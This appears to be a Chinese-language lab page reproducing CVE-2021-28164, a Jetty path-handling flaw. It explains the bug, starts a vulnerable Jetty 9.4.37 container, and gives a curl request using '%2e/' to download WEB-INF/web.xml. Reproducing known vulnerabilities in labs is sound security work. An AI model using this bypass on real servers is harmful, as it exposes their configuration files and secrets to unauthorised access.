



Jetty WEB-INF 敏感信息泄露漏洞 CVE-2021-28164¶
漏洞描述¶
Eclipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境。
Jetty 9.4.37引入对RFC3986的新实现，而URL编码的.字符被排除在URI规范之外，这个行为在RFC中是正确的，但在servlet的实现中导致攻击者可以通过%2e来绕过限制，下载WEB-INF目录下的任意文件，导致敏感信息泄露。该漏洞在9.4.39中修复。
参考链接：
- https://github.com/eclipse/jetty.project/security/advisories/GHSA-v7ff-8wcx-gmc5
- https://xz.aliyun.com/t/10039
环境搭建¶
Vulhub执行如下命令启动一个Jetty 9.4.37：
docker-compose up -d
服务启动后，访问http://your-ip:8080可以查看到一个example页面。

漏洞复现¶
直接访问/WEB-INF/web.xml将会返回404页面：

使用%2e/来绕过限制下载web.xml：
curl -v 'http://192.168.1.162:8080/%2e/WEB-INF/web.xml'
